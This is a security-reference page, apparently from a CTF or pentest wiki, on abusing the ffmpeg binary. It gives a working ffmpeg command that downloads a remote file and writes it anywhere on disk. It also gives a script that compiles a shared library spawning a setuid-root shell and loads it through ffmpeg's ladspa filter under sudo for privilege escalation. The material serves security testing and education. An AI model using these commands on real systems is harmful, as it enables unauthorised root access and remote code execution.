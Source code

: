 ```yaml
---
title: ffmpeg
description: A reference on features of the ffmpeg binary, relevant for security testing, exploiting and CTF.
---
```


## Arbitrary file write/download

`ffmpeg` can be abused as a substitute for `wget -o`. With the correct flags being set, `ffmpeg` will happily download and
write any arbitrary data to a file without modifying the data in any way. `ffmpeg` will even overwrite existing files.

```bash "-i https://example.com/file/to/download" "-f data file:/path/to/write/to.txt"
ffmpeg -y -f lavfi -i anullsrc=r=44100:cl=mono -f data -i https://example.com/file/to/download -c copy -map 1 -f data file:/path/to/write/to.txt
```

- Second `-i`: The file to download and later write to the local filesystem.
- `-f data file:`: The path to write the contents of the downloaded file to.

## Code execution/Privilege escalation

We can make ffmpeg execute arbitrary code by making it load a shared library which we add our payload as a constructor
to. Combining this with [arbitrary file write/download], we can upload a shared library to the target server and then
run this shared library to gain arbitrary RCE via the network.

To exploit ffmpeg's shared library loading, we can invoke it like so. [4]

```bash
TD=$(mktemp -d)
printf "\x52\x49\x46\x46\x24\x00\x00\x00\x57\x41\x56\x45\x66\x6d\x74\x20\x10\x00\x00\x00\x01\x00\x01\x00\x22\x56\x00\x00\x22\x56\x00\x00\x01\x00\x08\x00\x64\x61\x74\x61\x00\x00\x00\x00" > "$TD/any.wav"
echo -e '#include <unistd.h>\n#include <stdlib.h>\n__attribute__((constructor)) static void setup(void) {\nsetgid(0);\nsetuid(0);\nsystem("/bin/sh -c reset");\nsystem("/bin/sh");\n}' | gcc -x c -shared -fPIC -o $TD/libgtfo.so -
sudo ffmpeg -i $TD/any.wav -af "ladspa=file=$TD/libgtfo.so" -f null a.wav
```


## References

1. [Official ffmpeg website](https://ffmpeg.org/)
2. [Official ffmpeg documentation](https://ffmpeg.org/ffmpeg.html)
3. [ffmpeg GitHub repository](https://github.com/FFmpeg/FFmpeg)
4. [Loading shared library with ffmpeg for code execution](https://github.com/GTFOBins/GTFOBins.github.io/pull/482)

